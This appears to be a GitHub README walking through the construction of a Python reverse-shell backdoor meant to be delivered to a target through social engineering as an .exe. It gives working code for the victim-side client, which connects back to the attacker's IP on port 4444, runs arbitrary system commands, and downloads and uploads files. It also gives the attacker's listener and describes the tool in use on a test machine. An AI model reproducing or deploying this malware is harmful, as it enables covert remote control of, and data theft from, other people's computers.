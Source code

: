 # Backdoor.

A backdoor refers to any method by which authorized and unauthorized users are able to get around normal security measures and gain high-level user access on a computer system, network, or software application. With this malware we're going to gain access to download files, upload files, and access any repository that we want.</br>
## HOW?</br>
This malware has to be executed on the target machine, this repository doesn't cover the part of this malware being executed on the target machine because this is done with social engineering, converting the program .py in one file .exe, anyway I won't cover this here, I'm gonna show how to create the malware.

## The Behavior of a Backdoor.
The idea is to connect both computers(mine and the target machine) using sockets, but trying to connect my computer with the target directly doesn't work, the system denies the connection with some random port obviously, is like someone random trying to connect with my computer I wouldn't allow. So instead of me try to connect with some random port of the target machine I'm gonna make the target machine connect with me, we call this reverse shell, when the target downloads the .exe will run the program and this way connecting with some port that I opened in my computer.</br>

Once I already have the connection how I'm gonna execute commands on the target machine and download files and upload files? With the socket connection, I can send and receive strings between the computers, so I'm gonna send the command that I want to execute on the target machine and he will receive, and my program(the program that the target downloaded) will treat the string and execute on the target machine, sending back to my computer the command result. EX: if the target uses Windows and I send the command "cd" as a string he will receive and my program(on the target machine) it's gonna execute and send back the command result, in this case the directory that I'm./br>

The first thing that my .exe it's gonna do when the target executes, it's connecting with my machine using the module "socket" of python, in this case, the connection is made by the constructor when I create an object of the class backdoor.
```python
def __init__(self, ip, port):
    self.connection = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    self.connection.connect((ip, port))

my_backdoor = Backdoor ("192.168.1.8",4444)
my_backdoor.run()
```
then i run the methon run() that is gonna run all the time while the connection is up, the method receive_as_json() receive the commands that i sent from my machine, it receive as json because the socket connection just receive strings and how the commands that i want to execute are biggers, because they are lists like "dowload file.txt", i use json that converts lists and everything in strings.
```python
def receive_as_json(self):
        json_data = ""
        while True:
            try:
                json_data = json_data + self.connection.recv(1024)
                return json.loads(json_data)
            except ValueError:
                continue
```
this is other method that have an infinite loop because i can receive just 1024 bytes for each interaction, so verify if all the content already been received, if not keep receiveing more 1024 bytes.</br>

the try statement it's gonna verify the command list, precisely the first position to verify what i want to use(cd, download, upload) any other command will execute without any problems. When the cd command is executed i just change my directory to which i want to go(second part of the list the command[1]) with the module "os". And the result i put in variable command_result that is sent to my computer as json. 
```python
           try:
                if command[0] == "exit":
                    self.connection.close()
                    sys.exit()
                elif command[0] == "cd" and len(command) > 1:
                       self.change_working_directory_to(command[1])
                       command_result = "[+] Changing working directory to " + str(command[1])
                elif command[0] == "download":
                    command_result = self.read_file(command[1])
                elif command[0] == "upload":
                    command_result = self.write_file(command[1], command[2])  
                else:
                    command_result = self.execute_system_command(command)
            except Exception as e:
                command_result = "[-] Error during comand execution."
 
            self.send_as_json(command_result)
```
To download and upload files between the connection the logic is almost the same, the ideia is to copy the file that i want to download from the target machine and create a new file on my machine with the same content that i received through the connection. When i copy a file i actually copy all the characters from this file and when i paste i create a new file with this characters that i copied.
```python
def read_file(self, path):
    with open(path, "rb") as file:
         return base64.b64encode(file.read())
```
the logic reading the file is eazy, i just read the file that i want to download as a binary file, and convert into base 64 with the module "base64", because, when i read as a binary file unknow characters comes with the other characters, so converting the file to base 64 the unknow characters don't appear anymore.</br>

Anyway when i download one file from the target machine i actually sent the characters through the socket connection and receive on my machine, then one file is created with this characters that came from the target machine, this way i have the file that i wanted on my pc. Now when i want to upload files to my target is the same logic i just have to send from my computer the characters(in base 64) of the file, and the target machine will receive and use the method write_file() to create a new file with the characters that i want.

```python
 def write_file(self, path, content):
        with open(path, "wb") as file:
            file.write(base64.b64decode(content))
            return "[+] Upload successful."
```
All of this was the reverse_backdoor.py in format of .exe that was executed on the target machine, the listener is almost the same thing of this code, the differences are the constructor that open a port to receive the connection from the target machine.
```python
def __init__(self, ip, port):
          listener = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
          listener.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
          listener.bind((ip, port))
          listener.listen(0)
          print("[+] Waiting  for incoming connections")
          self.connection, address = listener.accept()
          print("[+] Got a connection from" + str(address))
```

the method run() it's gonna be in loop until i write the word "exit", while this i have an input to send the command that i want to the target machine, then i split the command to convert into a list. As i said if the first position of my list is "upload" i'm gonna read characters that i want and send through the socket connection as json, if the command is "download" i'm gonna send the command and receive the characters from the file that i want, and create a file with this characters.

```python
def run(self):
          while True:
                command = raw_input(">> ")
                command = command.split(" ")

                try:
		               if command[0] == "upload":
	                    file_content = self.read_file(command[1])
	                    command.append(file_content) 

		               result = self.execute_remotely(command) 
		                      
		               if command[0] == "download":
		                  result = self.write_file(command[1], result)
               except Exception:
                   result = "[-] Error during command execution"  

               print(result)
```
## The Backdoor in action...

First of all i have to execute the listener.py in my machine and wait the target download the .exe, with my testing machine
i downloaded the .exe(the file reverse_backdoor.py) then the connection is made automatically from the target machine. How you can see i got a connection from my target and if write the command ipconfig i already can see the result on my machine about the target machine. 

![Alt text](/<images/gif1.gif)

With the command "dir" i can see wich files are in that directoy, i want to download the image "codeImage.png", sending the command "download codeImage.png" the image appears on my machine.

![Alt text](/<images/gif2.gif)

Now i want to send the file EVILFILE.txt to my target, as you can see with the command "dir" there was nothing like that on the target,but when i write the command "upload EVILFILE.txt"...

![Alt text](/<images/gif3.gif)





